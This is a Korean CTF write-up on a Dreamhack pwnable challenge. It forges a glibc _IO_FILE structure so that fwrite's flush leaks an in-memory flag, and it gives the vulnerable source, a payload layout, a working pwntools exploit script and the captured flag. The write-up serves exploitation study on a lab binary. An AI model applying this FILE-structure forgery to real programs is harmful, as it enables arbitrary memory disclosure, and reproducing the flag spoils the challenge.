



# G4 · _IO_FILE Arbitrary Address Read

### 1. 문제 확인

`pwnable` 분류의 G4 문제. FILE 구조체를 위조하는 구조는 iofile_aaw와 같지만, 이번엔 **fread가 아니라 fwrite**를 조작한다. `fwrite`가 버퍼를 비우는(flush) 순간을 이용해, 우리가 지정한 주소의 내용을 화면으로 뱉어내게 만든다(임의 주소 읽기/유출).

<p align="center">
  
</p>

### 2. 코드

```c
char flag_buf[1024];      // 0x6010a0

int read_flag() {
    FILE *fp = fopen("/home/iofile_aar/flag", "r");
    fread(flag_buf, 1, sizeof(flag_buf), fp);
    fclose(fp);
}

int main() {
    const char *data = "TEST FILE!";
    FILE *fp;

    init();
    read_flag();                     // 플래그를 미리 flag_buf에 읽어둠

    fp = fopen("/tmp/testfile", "w");

    printf("Data: ");
    read(0, fp, 300);                // ★ 입력을 fp(FILE 구조체)에 덮어씀

    fwrite(data, 1, sizeof(flag_buf), fp);   // 조작된 fp로 씀
    fclose(fp);
}
```

`read_flag()`가 프로그램 시작과 동시에 플래그를 읽어 `flag_buf`(No PIE 고정 주소 0x6010a0)에 담아둔다. 플래그는 이미 메모리에 올라와 있고, 우리가 할 일은 그 내용을 화면으로 끌어내는 것뿐이다.

### 3. FILE 구조체 위조 — iofile_aaw와 동일

`read(0, fp, 300)`이 입력을 `fp` 주소에 그대로 써서 FILE 구조체를 덮는 부분은 [G4 _IO_FILE Arbitrary Address Write](<G4 _IO_FILE Arbitrary Address Write.md>)와 같다. 다른 점은 이번엔 **읽기(fread)가 아니라 쓰기(fwrite)** 쪽 포인터를 조작한다는 것이다.

### 4. payload와 구조체 멤버 대응

```c
struct _IO_FILE {
  int   _flags;          // payload[0]  = 0xfbad0800
  char *_IO_read_ptr;    // payload[1]  = 0
  char *_IO_read_end;    // payload[2]  = flag_buf
  char *_IO_read_base;   // payload[3]  = 0
  char *_IO_write_base;  // payload[4]  = flag_buf        ← 쓰기 출처
  char *_IO_write_ptr;   // payload[5]  = flag_buf+1024   ← 길이 1024
  char *_IO_write_end;   // payload[6]  = 0
  char *_IO_buf_base;    // payload[7]  = 0
  char *_IO_buf_end;     // payload[8]  = 0
  ...                    // payload[9~13] = 0
  int _fileno;           // payload[14] = 1   ← stdout으로 보내게
};
```

### 5. `_flags = 0xfbad0800`

`0xfbad0000`(매직) + `0x800`(`_IO_CURRENTLY_PUTTING`, "지금 쓰기 중"). AAW에서는 `_IO_NO_READS`를 꺼서 읽기를 허용하는 게 핵심이었다면, 이번엔 이 비트로 쓰기 스트림임을 표시한다. 실제 flush를 일으키는 핵심 조건은 다음 절의 `_IO_write_ptr` 쪽이다.

### 6. 취약한 부분 — fwrite가 왜 flag_buf를 출력하는가

`fwrite(data, 1, 1024, fp)`가 호출되면 glibc는 먼저 버퍼에 여유가 있는지 본다:

```
남은 공간 = _IO_write_end - _IO_write_ptr
```

`_IO_write_ptr`를 `_IO_write_base + 1024`로 위조했으니 **버퍼가 이미 가득 찬 상태**로 보인다. 그래서 `fwrite`는 새 데이터(`data`)를 담기 전에 먼저 **기존 버퍼를 비워야(flush)** 한다고 판단하고, 그 flush가 실제 쓰기 syscall로 이어진다:

```
write(fp->_fileno, fp->_IO_write_base, fp->_IO_write_ptr - fp->_IO_write_base)
= write(1, flag_buf, 1024)
```

여기서 fd로 나가는 건 `fwrite`의 인자 `data`가 아니라, **우리가 조작한 `_IO_write_base`~`_IO_write_ptr` 구간**이다. 이 구간을 `flag_buf`로 겨냥하고 `_fileno`를 1(stdout)로 바꿔뒀기 때문에, flush가 일어나는 순간 `flag_buf`에 있던 플래그가 그대로 화면에 출력된다. AAW가 "입력을 임의 주소에 쓰게" 만든 것이라면, 이건 **쓰기 함수(fwrite)를 읽기(유출) 도구로 뒤집은** 것이다.

### 7. 익스플로잇

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

p = remote("host3.dreamhack.games", 24199)
elf = ELF('./iofile_aar', checksec=False)
flag_buf = elf.symbols['flag_buf']        # 0x6010a0

payload  = p64(0xfbad0000 | 0x800)        # _flags : 매직 + _IO_CURRENTLY_PUTTING
payload += p64(0)                         # _IO_read_ptr
payload += p64(flag_buf)                  # _IO_read_end
payload += p64(0)                         # _IO_read_base
payload += p64(flag_buf)                  # _IO_write_base : 쓰기 출처
payload += p64(flag_buf + 1024)           # _IO_write_ptr  : 길이 1024 -> 버퍼 "가득 참"
payload += p64(0)                         # _IO_write_end
payload += p64(0) * 7                     # buf/save/markers/chain
payload += p64(1)                         # _fileno = 1 (stdout)

p.sendlineafter(b'Data: ', payload)       # fp(FILE 구조체) 위조
# fwrite -> 버퍼 꽉 참 -> flush -> write(1, flag_buf, 1024) -> 플래그 출력
p.interactive()
```

### 8. 실행 결과

<p align="center">
  
</p>

```text
DH{395880f6942dff77f2a9ee1e47546825a0f0a4865b706aa6ca44bdcd4f5c7eac}
```
